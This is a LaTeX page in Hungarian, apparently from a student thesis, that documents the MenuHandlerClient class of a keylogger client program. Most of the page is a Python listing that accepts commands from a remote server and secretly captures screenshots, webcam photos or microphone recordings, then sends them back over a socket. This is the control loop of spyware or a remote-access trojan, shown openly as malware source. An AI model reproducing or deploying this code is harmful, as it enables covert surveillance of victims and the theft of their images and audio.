 \documentclass[a4paper, 11pt]{article}
\begin{document}
\subsubsection{MenuHandlerClient osztály}\label{subsubsec:menuhandlerclinet}
A $MenuHandlerClient$ osztály foglalkozik az opciók fogadásával, és az opciók által elvégzett feladatokkal. Ez az osztály egy külön szálon kell, hogy fusson, máskülönben blokkolná a fő szálat, ahol a billentyűzetet hallgató osztály fut, lasd \pageref{subsubsec:keyloggerclientclass}. oldal 4.2.2, ezért a $Thread$ osztályból származtatjuk.
A szervertől kapott opciók döntik el, hogy milyen adatot épít fel, és küld el a program:
\begin{itemize}
\item 1 - képernyőkép
\item 2 - webkamerakép
\item 3 - hangrögzítés
\item 4 - felbontja a kapcsolatot
\end{itemize}
\begin{lstlisting}{language=Python}
date_time = datetime.now().strftime("%d_%H_%M_%S")
if option == '1':
	data = ["image", date_time]

	if take_screenshot(temp_path):
		if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
			with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")

	try:
		self.connection.client.sendall(str(data).encode())
	except:
		break
elif option == '2':
	data = ["wcpic", date_time]

	if take_webcam_picture(temp_path):
		if os.path.isfile(os.path.join(temp_path, "wc_picture.png")):
			with open(os.path.join(temp_path, "wc_picture.png"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")

	try:
		self.connection.client.sendall(str(data).encode())
	except:
		break
elif option == '3':
	data = ["audio", date_time]

	if record_audio(temp_path):
		if os.path.isfile(os.path.join(temp_path, "rec_audio.wav")):
			with open(os.path.join(temp_path, "rec_audio.wav"), 'rb') as handler:
				data.append(handler.read())
		else:
			data.append("Error")
	else:
		data.append("Error")

	try:
		self.connection.client.sendall(str(data).encode())
	except:
		break
elif option == '4' or stop_threads:
	data = ["close", date_time, "Exit"]
	self.connection.client.sendall(str(data).encode())
	self.connection.client.close()
	break
\end{lstlisting}
\end{document}
